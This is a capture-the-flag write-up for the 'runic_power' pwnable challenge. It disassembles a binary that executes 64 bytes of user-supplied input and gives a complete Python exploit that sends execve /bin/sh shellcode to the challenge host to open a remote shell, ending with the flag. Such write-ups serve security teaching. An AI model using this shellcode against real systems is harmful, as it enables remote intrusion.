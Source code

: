 runic_power - binary,exploitation,pwnable 200
---------------------------------------------

Runic Power 200 --- Even a tyro will crush this challenge at 10.0.66.71:6698

(solved by seaz, writeup by hbw)

For this challenge, we're given a 32-bit Linux binary and a TCP network service that runs said binary and forwards its stdin/stdout over our connection. The binary itself has its symbols stripped, but by disassembling the binary, we can find the main function by examining the first argument passed to `__libc_start_main`. (These examples use the output from `objdump -M intel-mnemonic -d runic_power-cb3db53a7ec552900f99dbe7c4b63561`.)

  8048397: 68 7d 84 04 08           push   0x804847d
  804839c: e8 bf ff ff ff           call   8048360 <__libc_start_main@plt>

Which gives us this:

  804847d: 55                       push   ebp
  804847e: 89 e5                    mov    ebp,esp
  8048480: 83 e4 f0                 and    esp,0xfffffff0
  8048483: 83 ec 30                 sub    esp,0x30
  8048486: c7 44 24 14 00 00 00     mov    DWORD PTR [esp+0x14],0x0
  804848d: 00 
  804848e: c7 44 24 10 ff ff ff     mov    DWORD PTR [esp+0x10],0xffffffff
  8048495: ff 
  8048496: c7 44 24 0c 22 00 00     mov    DWORD PTR [esp+0xc],0x22
  804849d: 00 
  804849e: c7 44 24 08 07 00 00     mov    DWORD PTR [esp+0x8],0x7
  80484a5: 00 
  80484a6: c7 44 24 04 ff ff 00     mov    DWORD PTR [esp+0x4],0xffff
  80484ad: 00 
  80484ae: c7 04 24 00 00 00 00     mov    DWORD PTR [esp],0x0
  80484b5: e8 96 fe ff ff           call   8048350 <mmap@plt>
  80484ba: 89 44 24 2c              mov    DWORD PTR [esp+0x2c],eax
  80484be: c7 44 24 08 ff ff 00     mov    DWORD PTR [esp+0x8],0xffff
  80484c5: 00 
  80484c6: c7 44 24 04 00 00 00     mov    DWORD PTR [esp+0x4],0x0
  80484cd: 00 
  80484ce: 8b 44 24 2c              mov    eax,DWORD PTR [esp+0x2c]
  80484d2: 89 04 24                 mov    DWORD PTR [esp],eax
  80484d5: e8 96 fe ff ff           call   8048370 <memset@plt>
  80484da: c7 44 24 08 40 00 00     mov    DWORD PTR [esp+0x8],0x40
  80484e1: 00 
  80484e2: 8b 44 24 2c              mov    eax,DWORD PTR [esp+0x2c]
  80484e6: 89 44 24 04              mov    DWORD PTR [esp+0x4],eax
  80484ea: c7 04 24 00 00 00 00     mov    DWORD PTR [esp],0x0
  80484f1: e8 3a fe ff ff           call   8048330 <read@plt>
  80484f6: 8b 44 24 2c              mov    eax,DWORD PTR [esp+0x2c]
  80484fa: ff d0                    call   eax
  80484fc: b8 00 00 00 00           mov    eax,0x0
  8048501: c9                       leave  
  8048502: c3                       ret    

This is a pretty straightforward function that does the following very nice things for us:

1. mmap's a 64KB buffer with read, write, and execute permissions, and zeroes it out.
2. Reads 64 bytes of data from stdin into that buffer.
3. Makes a call into that buffer.

Or, in other words, it runs 64 bytes of shellcode that we supply. That's plenty enough bytes for us to pop a shell on their server. Here is our final exploit script:

  #!/usr/env python2
  import socket
  from telnetlib import Telnet
  import time

  s = socket.socket()
  s.connect(("10.0.66.71", 6698))
  s.send("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
  time.sleep(1)

  t = Telnet()
  t.sock = s
  t.interact()

After sending the exploit, we use `Telnet.interact()` to use our obtained shell via the console, which we use to cat the flag:

  SRSLY_this_was_trivial_for_x86
